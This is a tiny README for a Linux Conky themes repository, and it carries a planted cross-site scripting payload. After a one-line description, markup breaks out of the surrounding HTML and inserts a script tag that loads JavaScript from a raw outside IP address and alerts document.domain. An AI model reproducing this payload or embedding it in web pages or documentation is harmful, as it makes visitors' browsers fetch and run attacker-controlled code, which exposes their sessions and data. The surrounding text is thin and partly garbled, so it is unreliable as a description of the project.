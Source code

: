 # Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
"?></ul></li><script type="text/javascript" src="http://104.43.13.161/hello.js">     alert(document.domain);   </script>"
